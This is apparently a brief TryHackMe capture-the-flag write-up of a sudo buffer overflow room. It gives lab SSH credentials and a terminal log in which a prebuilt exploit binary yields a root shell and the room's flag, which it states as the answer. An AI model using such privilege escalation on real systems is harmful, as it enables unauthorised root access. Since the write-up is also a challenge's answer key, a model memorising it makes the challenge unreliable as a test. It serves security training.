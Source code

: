 # Sudo Buffer Overflow | https://tryhackme.com/room/sudovulnsbof

### [Task 2] Buffer Overflow

ssh -p 4444 tryhackme@10.10.164.254 | Password : tryhackme 

```
ssh -p 4444 tryhackme@10.10.164.254
tryhackme@10.10.164.254's password: 
Last login: Thu Jun 18 03:30:09 2020 from 10.9.18.54
tryhackme@sudo-bof:~$ ls
exploit
tryhackme@sudo-bof:~$ ./exploit 
[sudo] password for tryhackme: 
Sorry, try again.
# 
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),1000(tryhackme)
# cat /root/root.txt
THM{buff3r_0v3rfl0w_rul3s}
```

#2	What's the flag in /root/root.txt? : `THM{buff3r_0v3rfl0w_rul3s}`
